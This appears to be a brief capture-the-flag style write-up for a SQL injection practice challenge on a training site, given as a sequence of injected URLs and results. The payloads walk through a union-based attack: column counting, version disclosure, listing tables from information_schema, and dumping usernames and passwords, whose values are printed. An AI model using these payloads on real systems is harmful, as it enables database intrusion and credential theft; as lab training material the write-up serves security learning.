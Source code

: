 <h1>Challenge 2</h1>

Note- No explanation, only links with relevant step as per Challenge 1. 

 

Challenge Link- http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1 

 
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+OR+'1'='1'--+ 

Find the difference :D 

 
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+ORDER+BY+4--+ 

4 columns in current table 

 
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+UNION+SELECT+1,2,3,4--+ 

Result- Column 2 is vulnerable 

 
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+UNION+SELECT+1,version(),3,4--+ 

MySQL Version Result- 5.6.44-cll-lve 

 
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+UNION+SELECT+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3,4--+ 

Result- 

Username is : testtable1,userlogs,users 

 
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+UNION+SELECT+1,(SELECT+password+FROM+users+WHERE+ID=1),3,4--+ 

 

Result- 

Username is : injector 

Username is : khan 

 

http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1+UNION+SELECT+1,(SELECT+group_concat(username,0x0a,password)+FROM+users+WHERE+ID=1+OR+1=1),3,4--+ 

 

Result- 

Username is : injector khan,decompiler hacktract,devilhunte dante,Zen sec-idiots,Zenodermus security-i,grayhat hacker,khan haxor,admin sadmin 

 

SAME RESULTS 

SUCCESS!! 
